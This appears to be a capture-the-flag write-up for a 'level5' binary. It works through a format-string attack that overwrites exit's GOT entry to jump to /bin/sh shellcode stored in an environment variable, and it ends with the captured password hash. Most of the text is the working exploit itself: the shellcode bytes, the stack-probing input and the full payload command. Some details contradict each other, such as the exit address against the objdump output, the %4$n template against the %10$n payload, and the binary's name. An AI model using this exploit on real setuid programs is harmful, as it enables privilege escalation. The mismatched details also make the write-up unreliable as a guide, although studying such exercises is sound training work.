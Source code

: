 ### step 1 : decompile binary with ghidra

### step 2 : Check all the functions availaible :
- We find in the n function an overflow-vulnerable functions : printf(). It is vulnerable because there is no casting, printf takes a buffer. We can take advantage of that call to trick printf to read/write memory with flags in our buffer.

- An `exit(1)` call is made just after the `printf` call

This function launches a shell, therefore is our key to gain access the flag 

#### strategy 

Our strategy : overwrite the call of the `exit` function by the call of a shellcode defined in env to get access to a shell with privileges to read `/home/user/level6/.pass`  


### step3 : find exit addresses

- Address of `exit` in the Global Table Offset (GOT) : 
```
objdump -R level5
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
exit : 080497e0

The `exit` address is 080497e0 => \xe0\x97\x04\x08
 : We will overwrite this address with the address of the shellcode


### step4 : setup shellcode in env

env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')

### step5: exploit printf overflow vulnerability


- we want to now at which position the printf starts to write the string given. For this with use this string as input : <n * char><n * %08x>
%08x will display the content of the stack chunks wrote next to the printf call

8 says that you want to show 8 digits
0 that you want to prefix with 0's instead of just blank spaces
x that you want to print in lower-case hexadecimal

```bash
./level5
aaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
=> aaaa00000064.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.00000000.ffffffff.ffffd764.f7fdb000.61616161.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838
```                              

- a value is 61
- We then find that printf argument position is at 10th position

shellcode address little endian : \xae\xde\xff\xff
shellcode address : 0xffffdeae

- The function shellcode address in decimal is 4294958766 
- We have to substract the 4 bytes of the destination address written at the start of the string : 4294958766 - 4 = 4294958762

- The exploit string will be formatted like that : `<destination addr> + %<value in decimal>d + %4$n` : `\xe0\x97\x04\x08%4294958762%10$n`
- To get the exploit working we have to keep stdin open with the `cat` trick like previous exercices :

```
(python -c 'print("\xe0\x97\x04\x08%4294958762%10$n")' ; cat) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```
=>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

